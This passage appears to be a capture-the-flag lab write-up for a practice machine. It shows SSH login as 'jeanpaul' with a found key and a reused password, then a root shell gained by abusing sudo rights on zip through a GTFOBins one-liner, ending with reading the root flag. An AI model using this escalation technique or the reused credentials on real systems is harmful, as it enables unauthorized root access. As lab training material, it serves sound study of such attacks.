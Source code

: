 #### SSH

- The user is `jeanpaul`

```bash
cd ~/tcm/peh/dev

ssh -i id_rsa jeanpaul@192.168.31.130
# Enter passphrase for key 'id_rsa':
# Try the Database found password
# I_love_java

jeanpaul@dev:~$

sudo -l
# /usr/bin/zip can be run as elevated privileges
```

![](3-eth-hackassets/2024-07-14_12-37-24_624.png)

- Abuse `sudo /usr/bin/zip` to escalate to `root` user

#### Privesc GTFO Bins

➡️ [GTFO Bins](https://gtfobins.github.io/)

- Check [zip - GTFOBins](https://gtfobins.github.io/gtfobins/zip/)
  - look for `Sudo` - If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'

id
cd /root
cat flag.txt
```
